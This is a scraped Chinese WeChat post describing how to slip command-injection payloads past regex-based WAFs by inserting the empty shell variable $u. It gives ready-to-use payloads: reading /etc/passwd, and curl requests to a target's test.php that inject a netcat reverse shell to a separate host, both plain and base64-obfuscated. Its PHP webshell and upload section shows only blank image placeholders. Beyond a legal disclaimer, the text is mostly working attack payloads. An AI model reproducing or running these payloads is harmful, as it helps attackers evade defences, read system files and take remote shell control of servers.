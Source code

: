 #  绕过一些不同寻常的WAF限制

[ 菜鸟小新 ](javascript:void\(0\);)

**菜鸟小新** ![]()

微信号 dsz-67

功能介绍 菜鸟也能飞

____

___发表于_

收录于合集 #安全工具 254个

## **####################  
免责声明：工具本身并无好坏，希望大家以遵守《网络安全法》相关法律为前提来使用该工具，支持研究学习，切勿用于非法犯罪活动，对于恶意使用该工具造成的损失，和本人及开发者无关。  
####################**

### 0x01 linux

当某个站点存在命令执行时，可通过linux的空变量$u来绕过正则WAF匹配：

使用空变量$u，linux中是可以存在空变量的，直接被系统视为空字符串，空变量不会对输出造成影响，可以借此来绕过基于正则表达式的过滤器和模式匹配。

详情请见：绕过CloudFlare WAF和ModSecurityOWASP CRS3核心规则集的技巧介绍

    
    
    Copy
    
    cat$u /etc$u/passwd$u  
    
    
    
    Copy
    
    curl-s "http://192.168.145.5/test.php?file=&/bin$u/echo$u bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/usr$u/bin$u/base64$u -d|/bin$u/sh$u"  
      
    curl-s "http://192.168.145.5/test.php?file=&/bin/ nc -e /bin/sh 192.168.145.1 4444"  
    

### 0x02 php

php一句话：

![]()

php文件上传：

![]()

 **  
**

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

